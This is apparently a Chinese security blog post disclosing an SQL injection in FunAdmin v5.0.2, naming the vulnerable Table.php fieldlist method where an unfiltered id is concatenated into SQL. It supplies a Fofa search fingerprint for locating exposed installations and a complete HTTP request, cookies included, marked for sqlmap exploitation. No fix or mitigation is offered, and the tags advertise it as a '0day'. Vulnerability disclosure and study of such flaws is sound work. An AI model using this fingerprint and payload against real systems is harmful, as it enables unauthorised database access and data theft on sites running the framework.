 #  Funadmin v5.0.2 存在SQL注入漏洞   
王桀  星悦安全   2025-04-23 08:23  
  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_jpg/lSQtsngIibibSOeF8DNKNAC3a6kgvhmWqvoQdibCCk028HCpd5q1pEeFjIhicyia0IcY7f2G9fpqaUm6ATDQuZZ05yw/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
点击上方  
蓝字  
关注我们 并设为  
星标  
## 0x00 前言  
  
█   
该文章来自楚风安全-王桀师傅   
█  
  
FunAdmin 基于thinkphp8.X +Layui2.9.*+requirejs开发权限(RBAC)管理框架，框架中集成了权限管理、模块管理、插件管理、后台支持多主题切换、配置管理、会员管理等常用功能模块，以方便开发者快速构建自己的应用。框架专注于为中小企业提供最佳的行业基础后台框架解决方案  
  
Fofa指纹:  
"FunAdmin"  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5f7V6mkYJot3IEyqxqhiaGzaa3lF0NYLIFAyR75pLjfGLfOUCv7vRibrOftUbyGFOibad0L4xwqAzZyQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5f7V6mkYJot3IEyqxqhiaGzazrnicGCKLODolkNffIyy8YQKkKhQB8zLCUFDicWnRf3skdYXtMIZicJibw/640?wx_fmt=jpeg "")  
  
漏洞版本：5.0.2  
## 0x01 漏洞研究&复现  
  
漏洞发生在 Funadmin\addons\curd\app\curd\controller\Table.php # fieldlist 方法 Fieldlist 调用 getFieldList 方法并传入未处理的 ID 值  
  
![image](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5f7V6mkYJot3IEyqxqhiaGzaaeXp1n5589lUsxJvJQCkXsElrnuVyFfNve4Xic73HwWhWMnpKibzbmzw/640?wx_fmt=png&from=appmsg "")  
  
该 ID 未被过滤并直接连接到 SQL 语句中，导致 SQL 注入  
  
  
  
Payload (保存数据包后Sqlmap跑):  
  
```
GET /curd/table/fieldlist?id=fun_test* HTTP/1.1
Host: 192.168.0.105
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,/;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=84a79679dc650a2da1270dfa0aed683d; Hm_lvt_8dcaf664827c0e8ae52287ebb2411aed=1726387527; HMACCOUNT=95CE0233E2123413; auth_account=YToxOntzOjEyOiJhY2Nlc3NfdG9rZW4iO3M6MzI3OiJleUowZVhBaU9pSktWMVFpTENKaGJHY2lPaUpJVXpJMU5pSjkuZXlKdFpXMWlaWEpmYVdRaU9qTTBORFlzSW1Gd2NHbGtJam9pSWl3aVlYQndjMlZqY21WMElqb2lJaXdpYVhOeklqb2lhSFIwY0hNNkx5OTNkM2N1Wm5WdVlXUnRhVzR1WTI5dElpd2lZWFZrSWpvaWFIUjBjSE02THk5M2QzY3VablZ1WVdSdGFXNHVZMjl0SWl3aWMyTnZjR1Z6SWpvaWNtOXNaVjloWTJObGMzTWlMQ0pwWVhRaU9qRTNNall6T1RFeU5qWXNJbTVpWmlJNk1UY3lOak01TVRJMk5pd2laWGh3SWpveE56STNNRGd5TkRZMmZRLjZOcloyN2ozclluNW82V29rXzMxZlEwRmxIdlB5ZlgtSm9GTnBIMTExWDAiO30%3D; clound_account=YTo0OntzOjI6ImlkIjtpOjM0NDY7czo4OiJ1c2VybmFtZSI7czo0OiJjZW5nIjtzOjg6Im5pY2tuYW1lIjtzOjA6IiI7czo2OiJhdmF0YXIiO3M6Mzc6Ii9zdGF0aWMvZnJvbnRlbmQvaW1hZ2VzL2F2YXRhci8xMi5qcGciO30%3D; Hm_lpvt_8dcaf664827c0e8ae52287ebb2411aed=1726403989; think_lang=zh-cn; tablename=fun_addons_demo_cate
Connection: close

```  
  
  
## 0x02 FunAdmin 下载  
  
**标签:代码审计，0day，渗透测试，系统，通用，0day，闲鱼，转转**  
  
  
**源码关注公众号，发送 250423 获取!**  
  
  
**免责声明:****文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由读者承担全部法律及连带责任，文章作者和本公众号不承担任何法律及连带责任，望周知！！!**  
  
